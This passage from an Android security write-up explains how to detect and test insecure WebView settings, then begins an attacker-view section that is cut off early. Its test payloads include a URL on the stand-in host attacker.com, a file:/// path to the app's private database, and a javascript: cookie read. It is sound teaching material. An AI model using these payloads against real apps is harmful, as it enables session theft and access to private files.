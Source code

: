 
### 🔍 Detection (Pentester/Bug Hunter)

Ways to detect insecure WebView usage:

1. **Static Analysis** (APK reverse engineering):
    
    - Decompile app with **JADX/APKTool**.
        
    - Search for:
        
        - `setJavaScriptEnabled(true)`
            
        - `setAllowFileAccess(true)`
            
        - `addJavascriptInterface`
            
    - Example finding:
        
        ```java
        webSettings.setJavaScriptEnabled(true);
        webSettings.setAllowFileAccess(true);
        webView.addJavascriptInterface(new JSBridge(), "Android");
        ```
        
2. **Dynamic Testing**:
    
    - Locate any screen where user input or external data is passed into WebView.
        
    - Test payloads:
        
        - `javascript:alert(1)` → confirms JS execution.
            
        - `http://attacker.com/malicious.html` → confirms arbitrary domain loading.
            
        - `file:///data/data/<app_package>/databases/aGoat` → tests local file access.
            
    - Intercept traffic with **Burp Suite** or **mitmproxy** to monitor what WebView fetches.
        
3. **Runtime Tools**:
    
    - Use **Objection/Frida** to hook into WebView APIs and confirm dangerous flags at runtime.
        
    - Example:
        
        ```bash
        frida-trace -U -n com.example.app -m "*WebView*"
        ```
        

---

### 💣 Exploitation (Attacker POV)

If attacker controls the URL loaded in WebView:

- Execute arbitrary JavaScript in the app’s context:
    
    ```javascript
    javascript:alert(document.cookie)
    ```
    